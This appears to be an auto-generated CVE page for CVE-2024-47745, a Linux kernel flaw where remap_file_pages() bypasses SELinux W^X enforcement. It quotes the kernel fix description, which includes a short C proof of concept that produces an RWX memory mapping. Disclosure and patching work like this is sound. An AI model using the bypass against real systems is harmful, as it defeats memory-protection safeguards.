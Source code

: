 ### [CVE-2024-47745](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-47745)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f4%3C%200f910dbf2f2a%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

In the Linux kernel, the following vulnerability has been resolved:mm: call the security_mmap_file() LSM hook in remap_file_pages()The remap_file_pages syscall handler calls do_mmap() directly, whichdoesn't contain the LSM security check. And if the process has calledpersonality(READ_IMPLIES_EXEC) before and remap_file_pages() is called forRW pages, this will actually result in remapping the pages to RWX,bypassing a W^X policy enforced by SELinux.So we should check prot by security_mmap_file LSM hook in theremap_file_pages syscall handler before do_mmap() is called. Otherwise, itpotentially permits an attacker to bypass a W^X policy enforced bySELinux.The bypass is similar to CVE-2016-10044, which bypass the same thing viaAIO and can be found in [1].The PoC:$ cat > test.cint main(void) {	size_t pagesz = sysconf(_SC_PAGE_SIZE);	int mfd = syscall(SYS_memfd_create, "test", 0);	const char *buf = mmap(NULL, 4 * pagesz, PROT_READ | PROT_WRITE,		MAP_SHARED, mfd, 0);	unsigned int old = syscall(SYS_personality, 0xffffffff);	syscall(SYS_personality, READ_IMPLIES_EXEC | old);	syscall(SYS_remap_file_pages, buf, pagesz, 0, 2, 0);	syscall(SYS_personality, old);	// show the RWX page exists even if W^X policy is enforced	int fd = open("/proc/self/maps", O_RDONLY);	unsigned char buf2[1024];	while (1) {		int ret = read(fd, buf2, 1024);		if (ret <= 0) break;		write(1, buf2, ret);	}	close(fd);}$ gcc test.c -o test$ ./test | grep rwx7f1836c34000-7f1836c35000 rwxs 00002000 00:01 2050 /memfd:test (deleted)[PM: subject line tweaks]

### POC

#### Reference
No PoCs from references.

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds

